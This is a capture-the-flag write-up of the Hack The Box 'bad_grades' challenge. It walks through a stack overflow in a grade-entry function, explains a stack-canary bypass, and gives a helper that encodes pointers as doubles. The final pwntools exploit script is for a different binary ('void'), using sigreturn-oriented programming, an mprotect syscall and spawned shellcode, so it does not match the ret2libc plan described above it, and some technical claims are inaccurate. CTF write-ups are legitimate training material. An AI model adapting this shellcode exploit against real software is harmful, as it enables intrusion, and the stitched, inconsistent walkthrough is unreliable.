

This is one of the hack the box challenges that I was solving the other day, and have noticed that such concepts appear quite frequently in many ctf's. I would like to take you through the entire challenge and hopefully you will be able to understand the underlying concept!
First off, as usual we do a preliminary check on the binary given to us!
```
Canary : ✓
NX : ✓
PIE : ✘
Fortify : ✘
RelRO : Full
gef➤
```
Alright! So we see PIE disabled but Canary being enabled, which means, we will have to find a way to somehow bypass the canary or obtain a canary leak.
Let's dive right into the binary by first running it to see what it is all about.
```
Your grades this semester were really good BAD!
1. View current grades.
2. Add new.
>
```
Okay so as we run the challenge with the command `./bad_grades`, we see that we are provided with two options, to view current grades and then to add new!
Since we don't know anything about the challenge yet, let us go ahead and give choice 1.
We see something like this:
```
Your grades this semester were really good BAD!
1. View current grades.
2. Add new.
> 1
Your grades were:
2
4
1
3
0
You need to try HARDER!
```
Alright, so it just exits! Nevermind, let's checkout out option 2! We get:
```
Your grades this semester were really good BAD!
1. View current grades.
2. Add new.
> 2
Number of grades: 3
Grade [1]: 4
Grade [2]: 5
Grade [3]: 6
Your new average is: 5.00
```
OK! So here we are allowed to add new grades and at the end it prints our new avaerage. Now let's check out the decompilation for more specifics as to what the binary is doing! For decompilation I normally use IDA. However you are free to use any other software like Ghidra or Hopper V.
```
unsigned __int64 __fastcall sub_400FD5()
{
int num; // [rsp+0h] [rbp-120h] BYREF
int i; // [rsp+4h] [rbp-11Ch]
double sum; // [rsp+8h] [rbp-118h]
double array[33]; // [rsp+10h] [rbp-110h] BYREF
unsigned __int64 v5; // [rsp+118h] [rbp-8h]
v5 = __readfsqword(0x28u);
sum = 0.0;
sub_400ACB("Number of grades: ", "cyan", "bold");
__isoc99_scanf("%d", &num);
for ( i = 0; i < num; ++i )
{
printf("Grade [%d]: ", (unsigned int)(i + 1));
__isoc99_scanf("%lf", &array[i]);
sum = array[i] + sum;
}
printf("Your new average is: %.2f\n", sum / (double)num);
return __readfsqword(0x28u) ^ v5;
}
```
The above is the decompilation of function at 0x400fd5 i.e add_new(). Since it is a stripped file, we may not be able to see seperate user defined functions as such.
Okay, so what do we understand here?
We see that at first we have an array variable declared locally with size 33. It then asks for how many grades we wish to enter. Since there is no check on the size, we can easily overflow the array variable to gain an rip control. With size=34, we see that it spits `*** stack smashing detected ***: terminated`. So we know, 33 is the size of array, and 34 is where the canary is located.
Furthermore, we see a for loop wherein it asks us to give marks scored and we must observe that we can give any float value as input. However, one must also think as to how can canary and adress values be written in float! For that we can define a function in our exploit that specifically converts the integer to float something like this:
```
def double_pointer(pointer_value):
byte_string = p64(pointer_value)
hex_byte_string = binascii.hexlify(byte_string)
x = struct.unpack('d', hex_byte_string.decode('hex'))
return x[0]
```
To bypass the canary check, since our input is a float value, we can give . as the input for filling up the canary. The %.2f in scanf will ignore the . character and instead store the resulting float value in xmm registers.
Now our process is simple:
- Bypass canary
- Get a libc leak
- Apply dynamic rop ( or ret2libc) or call one_gadget
```
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"
#p = remote("tamuctf.com", 443, ssl=True, sni="void")
p = process('./void')
#gdb.attach(p, gdbscript='set disassembly-flavor intel\nb*main\nc\n')
main = 0x0000000000401000
ret = 0x40101a
syscall = 0x0000000000401018
start = 0x400020
frame = SigreturnFrame()
frame.rax = 10
frame.rdi = 0x00000000400000
frame.rsi = 0x1000
frame.rdx = 0x7
frame.rsp = 0x00000000400018# ptr to start
frame.rip = syscall# mprotect syscall
chain = p64(main)
print(str(frame))
pay = p64(main) + p64(syscall) + bytes(frame)
p.send(pay)
sleep(0.1)
p.send(p64(syscall).ljust(15, b'\x00'))
sleep(0.1)
p.send(p64(start) + asm('add rsp, 100') + asm(shellcraft.sh()))
sleep(0.1)
p.interactive()
```